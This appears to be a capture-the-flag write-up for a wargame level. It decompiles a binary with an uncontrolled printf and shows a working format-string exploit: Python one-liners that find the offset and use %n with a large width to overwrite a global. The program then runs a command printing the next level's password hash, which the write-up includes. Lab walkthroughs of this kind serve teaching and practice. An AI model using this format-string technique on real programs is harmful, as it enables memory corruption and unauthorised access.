 get the binary on host
* `scp -P 4242 level4@192.168.56.107:./level4 ./binary/level4`

decompile using ghidra
```c
	unsigned int m;

	void main(void)
	{
		n();
	return;
	}

	void n(void)
	{
		undefined local_20c [520];
		
		fgets(local_20c,512,stdin);
		p(local_20c);
		if (m == 16930116) {
			system("/bin/cat /home/user/level5/.pass");
		}
		return;
	}

	void p(undefined4 param_1)
	{
		printf(param_1);
		return;
	}

```

addr of m => 0x08049810\
We need to find the offset, by trying (`python -c "print '\x10\x98\x04\x08' + '%x ' * 12" > /tmp/exploit_4; cat /tmp/exploit_4 | ./level4`), we can find it's 12.\
We now need to set m to 16 930 116. To do this we will again use %n so here `%12$n` but before we need printf to print 16930166 char but we can only intput 520.

We will use printf width option and do this\
`python -c "print '\x10\x98\x04\x08' + '%16930112c' + '%12\$n'" > /tmp/exploit_4; cat /tmp/exploit_4 | ./level4`
```
	[...]
	                                                             �
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```